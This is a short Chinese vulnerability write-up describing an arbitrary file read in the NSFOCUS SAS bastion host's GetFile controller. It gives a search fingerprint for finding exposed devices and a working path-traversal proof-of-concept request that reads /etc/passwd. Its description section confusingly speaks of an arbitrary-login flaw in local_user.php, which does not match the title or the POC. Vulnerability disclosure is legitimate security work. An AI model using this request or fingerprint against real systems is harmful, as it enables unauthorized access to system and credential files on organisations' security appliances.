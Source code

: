 # 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

body="'/needUsbkey.php?username='"

## 漏洞复现

登陆页面

![image-20230810163031522](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163238306-1826313934.png)

漏洞存在于文件 GetFileController.php 文件中

![image-20230810163048587](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163241877-527999773.png)

验证POC

```plain
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![image-20230810163103853](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163244593-1554202383.png)